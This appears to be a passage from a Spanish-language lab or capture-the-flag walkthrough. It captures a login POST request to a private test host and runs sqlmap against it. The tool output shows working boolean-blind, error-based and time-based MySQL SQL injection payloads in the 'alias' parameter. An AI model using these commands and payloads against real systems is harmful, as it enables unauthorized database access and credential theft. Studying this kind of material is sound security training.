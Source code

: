 
Quedaría el archivo de la siguiente manera:
```bash
nano request.txt
----------------
POST /login.php HTTP/1.1
Host: 192.168.10.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://192.168.10.220
Connection: keep-alive
Referer: http://192.168.10.220/login.php
Cookie: PHPSESSID=uhaksjdunefpt1is3jkad70
Upgrade-Insecure-Requests: 1
Priority: u=0, i

alias=admin&password=admin
```

Con **SQLMAP** le vamos a indicar que pruebe si el login es vulnerable a **Inyecciones SQL**:
```bash
sqlmap -r request.txt --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
...
POST parameter 'alias' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 265 HTTP(s) requests:
---
Parameter: alias (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: alias=-9105' OR 6739=6739#&password=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: alias=admin' AND GTID_SUBSET(CONCAT(0x7162787171,(SELECT (ELT(1050=1050,1))),0x717a717671),1050)-- bMcE&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: alias=admin' AND (SELECT 7967 FROM (SELECT(SLEEP(5)))ESNY)-- fcQV&password=admin
---
[13:43:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.24.0
back-end DBMS: MySQL >= 5.6
[*] ending @ 13:43:04 /2025-07-24/
```
